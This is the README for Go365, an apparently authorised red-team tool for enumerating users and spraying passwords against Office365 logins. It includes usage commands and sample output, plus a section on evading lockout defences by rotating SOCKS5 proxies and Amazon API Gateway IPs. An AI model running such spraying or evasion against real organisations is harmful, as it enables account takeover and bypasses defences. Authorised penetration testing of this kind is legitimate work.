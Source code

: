 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.


##### Read these three bullets!
- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.


## Obtaining

#### Option 1
Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2
Download the source and compile locally.
1. Install Go.
2. Go get some packages:
```
go get github.com/beevik/etree
go get github.com/fatih/color
go get golang.org/x/net/proxy
  ```
3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

```
go build Go365.go
```
5. Run the resulting binary and enjoy :)


## Usage
``` 
$ go run ./Go365.go -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.1
 Authors: h0useh3ad, paveway3, S4R1N

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

   Required:
     -ul <file>             Username list to use
                              - file should contain one username per line WITHOUT "@domain.com"
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -d <string>            Domain to test
                              (-d testdomain.com)

   Optional:
     -w <int>              Time to wait between attepmts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -o <string>           Output file to write to
                              - Will overwrite!
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)
     -url <string>          Endpoint to send requests to
                              - Amazon API Gateway 'Invoke URL'

 Examples:
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
   ./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login

```



### Examples
_no u_




## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out acocunts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.
```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```


This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.


### Countering Defenses
The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. ``` -w 15```

If you still get "account locked out" responses, start proxying your requests. Proxy options have only been tested on SSH SOCKS5 dynamic proxies (```ssh -D <port> user@proxyserver```)

Create a bunch of SOCKS5 proxies on DO or AWS or Vultr or whatever and make a file that looks like this:
```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```
The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

 ```-w 15 -proxyfile ./proxies.txt```

Additionally, you may specify an endpoint url. This option is provided so this tool may be used in conjunction with Amazon API Gateway. Setup a gateway to point to the `https://login.microsoftonline.com/rst2.srf` endpoint, then set the -url parameter to the provided `Invoke URL`. Your IP should be rotated with each request.

`-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login`